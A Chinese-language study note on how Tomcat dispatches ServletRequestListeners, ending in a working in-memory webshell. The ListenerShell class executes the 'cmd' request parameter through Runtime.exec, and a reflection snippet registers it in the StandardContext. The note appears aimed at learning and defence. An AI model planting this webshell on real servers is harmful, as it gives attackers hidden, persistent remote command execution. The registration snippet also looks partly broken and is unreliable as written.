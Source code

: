 ## 基础环境
Servlet，Filter环境与Filter内存马的环境一致，增加了Listener
*Listener.java*

```java
package org.example.listener;  
  
import javax.servlet.ServletRequestEvent;  
import javax.servlet.ServletRequestListener;  
import javax.servlet.annotation.WebListener;  
  
@WebListener("Listener")  
public class Listener implements ServletRequestListener {  
    public Listener() {  
    }  
  
    @Override  
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {  
  
    }  
  
    @Override  
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {  
        System.out.println("Listener 被调用");  
  
    }  
}
```

在实际运行中的顺序

![](attachments/Pasted%20image%2020230314162559.png)

>在IDEA中搭建tomcat时需要注意字节码的版本，特别是当出现内部java编译器出错的时候

## Listener运行流程
在前面[Java Web基础](../../Java%20Web/Java%20Web基础.md)的时候提到过执行顺序为 *Listener -> Filter -> Servlet* ，Listener的具体功能实现所依赖的函数，当在idea中新建一个Listener时就可以看到这些函数和基本的解释
```java
@Override  
public void contextInitialized(ServletContextEvent sce) {  
    /* This method is called when the servlet context is initialized(when the Web application is deployed). */  
}  
  
@Override  
public void contextDestroyed(ServletContextEvent sce) {  
    /* This method is called when the servlet Context is undeployed or Application Server shuts down. */  
}  
  
@Override  
public void sessionCreated(HttpSessionEvent se) {  
    /* Session is created. */  
}  
  
@Override  
public void sessionDestroyed(HttpSessionEvent se) {  
    /* Session is destroyed. */  
}  
  
@Override  
public void attributeAdded(HttpSessionBindingEvent sbe) {  
    /* This method is called when an attribute is added to a session. */  
}  
  
@Override  
public void attributeRemoved(HttpSessionBindingEvent sbe) {  
    /* This method is called when an attribute is removed from a session. */  
}  
  
@Override  
public void attributeReplaced(HttpSessionBindingEvent sbe) {  
    /* This method is called when an attribute is replaced in a session. */  
}
```

当然这里缺少了对于Listener内存马来说最为，适用的方法，就是上面的listener中的两个方法`requestInitialized`和`requestDestroyed`
当访问页面的时候触发

先前看这个方法的接口

![](attachments/Pasted%20image%2020230314181322.png)

### Listener的执行
先在执行的Listener中下个断点调试，看的出来后面的一系列invoke都是前面分析过的很熟悉的流程

![](attachments/Pasted%20image%2020230314181855.png)

这里有一个不一样的函数方法`fireRequestInitEvent`,方法向后跟的话就做了一堆的安全检查，之后就走到filter那边的流程了

![](attachments/Pasted%20image%2020230314184300.png)

但是在*StandardContext*这里调用了`requestInitialized`

![](attachments/Pasted%20image%2020230314185744.png)

而这个listener是来自`getApplicationEventListeners()`这个方法

![](attachments/Pasted%20image%2020230314190030.png)

接着往上找

![](attachments/Pasted%20image%2020230314190130.png)

![](attachments/Pasted%20image%2020230314190148.png)

![](attachments/Pasted%20image%2020230314190251.png)

![](attachments/Pasted%20image%2020230314190347.png)

最后发现这个`CopyOnWriteArrayList()`也只是做一个数组，那么应该是中间对==applicationEventListenersList==做了处理，还是在源文件搜索，发现这是应该放listener的地方

![](attachments/Pasted%20image%2020230314190645.png)

去找这两个函数的用法

![](attachments/Pasted%20image%2020230314191003.png)

![](attachments/Pasted%20image%2020230314191017.png)

逐层向上找，源头是在`findApplicationListeners()`

![](attachments/Pasted%20image%2020230314191100.png)

![](attachments/Pasted%20image%2020230314191336.png)
发现这里有确切的值

![](attachments/Pasted%20image%2020230314191239.png)

向下找到`addApplicationListener`这个方法

![](attachments/Pasted%20image%2020230314191449.png)

找它的用法，在`ContextConfig#configureContext(WebXml webxml)`,看名字其实就可以做一些推测应该是去读取web.xml的配置来对Listerer来进行注册的

在这个里面可以看到前面[Tomcat内存马——Filter](Tomcat内存马——Filter.md)的一些熟悉的函数

![](attachments/Pasted%20image%2020230314192050.png)

这个是对listener的使用

![](attachments/Pasted%20image%2020230314192153.png)

理解了前面对listener的读取再向后去看后面对Listener的调用（其实这个时候已经可以发现`fireRequestInitEvent`这个函数是中间的衔接点）

```java
public boolean fireRequestInitEvent(ServletRequest request) {  
  
    Object instances[] = getApplicationEventListeners();  
  
    if ((instances != null) && (instances.length > 0)) {  
  
        ServletRequestEvent event = new ServletRequestEvent(getServletContext(), request);  
  
        for (Object instance : instances) {  
            if (instance == null) {  
                continue;  
            }  
            if (!(instance instanceof ServletRequestListener)) {  
                continue;  
            }  
            ServletRequestListener listener = (ServletRequestListener) instance;  
  
            try {  
                listener.requestInitialized(event);  
            } catch (Throwable t) {  
                ExceptionUtils.handleThrowable(t);  
                getLogger().error(  
                        sm.getString("standardContext.requestListener.requestInit", instance.getClass().getName()),  
                        t);  
                request.setAttribute(RequestDispatcher.ERROR_EXCEPTION, t);  
                return false;            }  
        }  
    }  
    return true;  
}
```

现在看之前说的眼熟的invoke，在StandardHostValve这里，依旧是以request的方式来获取context

![](attachments/Pasted%20image%2020230314193408.png)

到目前为止我们已经知道了整个执行的流程，可以去完成一个内存马的编写了

## 内存马的编写
我们的恶意代码应该写在`requestInitialized`中来执行
这里的恶意类

```java
public class ListenerShell implements ServletRequestListener {  
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {  
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();  
        if (req.getParameter("cmd") != null) {  
            try {  
                InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();  
                Scanner s = new Scanner(in).useDelimiter("\\A");  
                String out = s.hasNext() ? s.next() : "";  
                Field requestF = req.getClass().getDeclaredField("request");  
                requestF.setAccessible(true);  
                Request request = (Request) requestF.get(req);  
                request.getResponse().getWriter().write(out);  
            } catch (IOException | NoSuchFieldException | IllegalAccessException e) {}  
        }    }}
```

获取standardcontext并`getApplicationEventListeners()`

```java
Field reqField = request.getClass().getDeclaredField("request");  
reqField.setAccessible(true);  
Request req = (Request) reqField.get(request);  
StandardContext context = (StandardContext) req.getContext();  
context.fireRequestInitEvent(req.getRequest());  
ListenerShell listenerShell = new ListenerShell();  
context.addApplicationListener(String.valueOf(listenerShell));
```

